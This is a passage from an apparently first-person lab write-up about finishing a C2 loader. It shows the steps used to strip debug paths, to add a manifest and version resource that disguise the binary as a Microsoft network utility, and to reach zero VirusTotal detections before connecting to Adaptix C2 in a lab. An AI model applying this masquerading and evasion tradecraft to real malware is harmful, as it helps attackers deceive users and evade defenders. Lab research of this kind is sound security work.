Next, I had to target the .pdb path I left foolishly in the build. Visual Studio provides the option to opt-out from publishing debug info at: Project Properties > Linker > Debugging - setting Generate Debug Info to No.
Version and Manifest
Creating a NetUtil.rc resource file, I further added a Version resource within it. I crafted the following version file to masquerade the binary as a Microsoft utility.

For the manifest, I created app.manifest file with following contents that defines:
- This application does not need UAC invocation
- This application is compatible across different microsoft versions (
supportedOSGUIDs dervied from: https://learn.microsoft.com/en-us/windows/win32/sysinfo/targeting-your-application-at-windows-8-1) - This application is DPI aware
to further add onto pseudo-legitimacy.
<?xml version="1.0" encoding="utf-8"?>
<assembly manifestVersion="1.0"
xmlns="urn:schemas-microsoft-com:asm.v1">
<assemblyIdentity
version="5.6.0.1"
processorArchitecture="amd64"
name="Microsoft.Windows.NetworkUtil"
type="win32" />
<description>Network Diagnostic Utility</description>
<!-- UAC -->
<trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
<security>
<requestedPrivileges>
<!--
UAC settings:
- app should run at same integrity level as calling process
- app does not need to manipulate windows belonging to
higher-integrity-level processes
-->
<requestedExecutionLevel
level="asInvoker"
uiAccess="false"
/>
</requestedPrivileges>
</security>
</trustInfo>
<!-- OS compatibility -->
<compatibility xmlns="urn:schemas-microsoft-com:compatibility.v1">
<application>
<!-- Windows 10 and Windows 11 -->
<supportedOS Id="{8e0f7a12-bfb3-4fe8-b9a5-48fd50a15a9a}"/>
<!-- Windows 8.1 -->
<supportedOS Id="{1f676c76-80e1-4239-95bb-83d0f6d0da78}"/>
<!-- Windows 8 -->
<supportedOS Id="{4a2f28e3-53b9-4441-ba9c-d69d4a4a6e38}"/>
<!-- Windows 7 -->
<supportedOS Id="{35138b9a-5d96-4fbd-8e2d-a2440225f93a}"/>
<!-- Windows Vista -->
<supportedOS Id="{e2011457-1546-43c5-a5fe-008deee3d3f0}"/>
</application>
</compatibility>
<!-- DPI awareness -->
<application xmlns="urn:schemas-microsoft-com:asm.v3">
<windowsSettings>
<dpiAware
xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
true
</dpiAware>
</windowsSettings>
</application>
</assembly>
Next, in Project properties > Linker > Manifest File, ensuring that Generate Manifest is Yes, I set Enable User Access Control (UAC) to No as I already defined the same in the XML above.
Within Project properties > Manifest Tool > Input and Output > Additional Manifest Files I added my app.manifest file.
Finally, while building the project I encountered the following errors:

To include macro definitions, I prefixed #include <windef.h> before #include "resource.h" include statement, it further fixed all other build errors mentioned above so I flew with it.
Benchmarking
This release build finally landed 0 detections on virustotal.

In the trenches
Throwing this final build onto my SOC-SIEM lab gave me successful connection onto Adaptix C2. Unlike the previous attempt where a debug build (may be helping in lowering entropy) was the loader that succeeded, here the final release build was used.
